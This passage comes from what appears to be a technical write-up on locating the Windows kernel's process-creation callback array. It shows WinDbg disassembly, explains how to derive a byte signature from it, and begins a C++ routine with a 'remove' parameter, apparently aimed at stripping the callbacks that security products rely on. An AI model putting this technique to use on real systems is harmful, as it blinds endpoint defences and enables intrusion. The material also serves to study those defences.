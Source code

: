 <pre>
lkd> u nt!PspSetCreateProcessNotifyRoutine L20
nt!PspSetCreateProcessNotifyRoutine:
fffff800`a4e61fd0 48895c2408      mov     qword ptr [rsp+8],rbx
fffff800`a4e61fd5 48896c2410      mov     qword ptr [rsp+10h],rbp
fffff800`a4e61fda 4889742418      mov     qword ptr [rsp+18h],rsi
fffff800`a4e61fdf 57              push    rdi
fffff800`a4e61fe0 4154            push    r12
fffff800`a4e61fe2 4155            push    r13
fffff800`a4e61fe4 4156            push    r14
fffff800`a4e61fe6 4157            push    r15
fffff800`a4e61fe8 4883ec20        sub     rsp,20h
fffff800`a4e61fec 8bf2            mov     esi,edx
fffff800`a4e61fee 8bda            mov     ebx,edx
fffff800`a4e61ff0 83e602          and     esi,2
fffff800`a4e61ff3 4c8bf9          mov     r15,rcx
fffff800`a4e61ff6 f6c201          test    dl,1
fffff800`a4e61ff9 0f8487000000    je      nt!PspSetCreateProcessNotifyRoutine+0xb6 (fffff800`a4e62086)
fffff800`a4e61fff 65488b2c2588010000 mov   rbp,qword ptr gs:[188h]
<span style="color: green;">fffff800`a4e62008 4c8d2d712a4a00  lea     r13,[nt!PspCreateProcessNotifyRoutine (fffff800`a5304a80)]</span>
fffff800`a4e6200f 83c8ff          or      eax,0FFFFFFFFh
fffff800`a4e62012 660185e4010000  add     word ptr [rbp+1E4h],ax
fffff800`a4e62019 90              nop
<span style="color: green;">fffff800`a4e6201a 4533f6          xor     r14d,r14d
fffff800`a4e6201d 4183fe40        cmp     r14d,40h
fffff800`a4e62021 7338            jae     nt!PspSetCreateProcessNotifyRoutine+0x8b (fffff800`a4e6205b)</span>
fffff800`a4e62023 4e8d24f500000000 lea     r12,[r14*8]
</pre>

And so the bytes that we can use for example is the highlighed one in green starting from xor, but we need to write them in the c variable in reverse (little endian arch) which is `0x7340fe8341f63345`.

<pre>
lkd> dq ffffff800`a4e6201a L1
fffff800`a4e6201a  7340fe83`41f63345
</pre>

### Fixing the offset
Next we need to fix the offset, to be able to extract and calculate the address of the callback array.

<pre>
void notifyRoutine::findprocesscallbackroutine(DWORD64 remove) {

	//we search the memory between PoRegisterCoalescingCallback and EtwWriteEndScenario for a specific set of instructions next to a relative LEA containing the offset to the PspCreateProcessNotifyRoutine array of callbacks.
	Offsets offsets = getVersionOffsets();
	const DWORD64 IoDeleteSymbolicLink = GetFunctionAddress("IoDeleteSymbolicLink");
	const DWORD64 RtlDestroyHeap = GetFunctionAddress("RtlDestroyHeap");
